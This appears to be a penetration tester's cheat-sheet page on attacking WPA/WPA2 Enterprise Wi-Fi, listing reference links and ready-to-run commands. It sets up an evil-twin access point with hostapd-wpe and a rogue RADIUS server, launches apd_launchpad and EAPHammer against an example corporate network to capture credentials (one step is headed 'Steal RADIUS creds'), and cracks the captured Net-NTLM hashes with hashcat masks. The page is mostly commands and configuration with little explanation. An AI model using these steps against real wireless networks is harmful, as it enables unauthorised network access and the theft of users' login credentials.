 # WPA/WPA2 Enterprise

* [https://medium.com/@adam.toscher/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2](https://medium.com/@adam.toscher/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2)
* [https://solstice.sh/iii-eap-downgrade-attacks/](https://solstice.sh/iii-eap-downgrade-attacks/)




## hostapd-wpe

* [https://pentest.blog/attacking-wpa-enterprise-wireless-network/](https://pentest.blog/attacking-wpa-enterprise-wireless-network/)
* [https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html](https://teckk2.github.io/wifi%20pentesting/2018/08/09/Cracking-WPA-WPA2-Enterprise.html)
* [https://codeby.net/threads/vzlom-wpa-2-enterprise-s-pomoschju-ataki-evil-twin.59920/](https://codeby.net/threads/vzlom-wpa-2-enterprise-s-pomoschju-ataki-evil-twin.59920/)

1\. Install dependencies:

```
$ sudo apt install libnl-3-dev libssl-dev
$ sudo apt install hostapd-wpe
```

2\. Install and configure hostapd-wpe:

```
$ sudo vi /etc/hostapd-wpe/hostapd-wpe.conf
...
interface=wlan1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ssid=NotEvilTwinAP
channel=1
hw_mode=b
auth_server_addr=127.0.0.1
auth_server_port=18120
auth_server_shared_secret=S3cr3t!
wpa_pairwise=TKIP CCMP
```

3\. Run fake AP with RADIUS server:

```
$ sudo airmon-ng check kill
$ sudo /usr/sbin/hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

4\. Crack Net-NTLM hashes (mask example):

```
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u?s ?1?1?1?1?1?1?1?1
```




## apd_launchpad

* [https://github.com/WJDigby/apd_launchpad](https://github.com/WJDigby/apd_launchpad)
* [https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html](https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html)

```
$ python ~/tools/apd_launchpad/apd_launchpad.py -t radius -s MegaCorp -i wlan1 -ch 1 -cn '*.megacorp.local' -o MegaCorp
$ vi radius/radius.conf
...
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
```




## EAPHammer

* [https://github.com/s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer)

Setup:

```
$ git clone https://github.com/s0lst1c3/eaphammer.git ~/tools/eaphammer && cd ~/tools/eaphammer
$ sudo ./kali-setup
$ sudo python3 -m pip install flask-cors flask-socketio --upgrade
```

Create a certificate:

```
$ sudo ./eaphammer --cert-wizard
```

Steal RADIUS creds:

```
$ sudo ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 1 --interface wlan1 --auth wpa-eap --creds
```
